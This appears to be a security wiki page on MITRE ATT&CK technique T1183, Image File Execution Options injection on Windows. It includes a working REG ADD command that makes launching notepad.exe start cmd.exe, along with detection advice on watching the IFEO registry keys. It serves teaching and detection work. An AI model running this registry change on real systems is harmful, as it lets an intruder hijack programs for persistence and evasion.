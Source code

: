 ```yaml
---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---
```


# T1183: Image File Execution Options Injection

## Execution

Modifying registry to set cmd.exe as notepad.exe debugger, so that when notepad.exe is executed, it will actually start cmd.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching a notepad on the victim system:

![](../.gitbook/assets/ifeo-notepad.png)

Same from the cmd shell:

![](../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring command line arguments and events modifying registry keys: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting this attack:

![](../.gitbook/assets/ifeo-cmdline.png)

![](../.gitbook/assets/ifeo-cmdline2.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1183" %}

{% embed url="https://blogs.msdn.microsoft.com/mithuns/2010/03/24/image-file-execution-options-ifeo/" %}

{% embed url="https://blogs.msdn.microsoft.com/reiley/2011/07/29/a-debugging-approach-to-ifeo/" %}

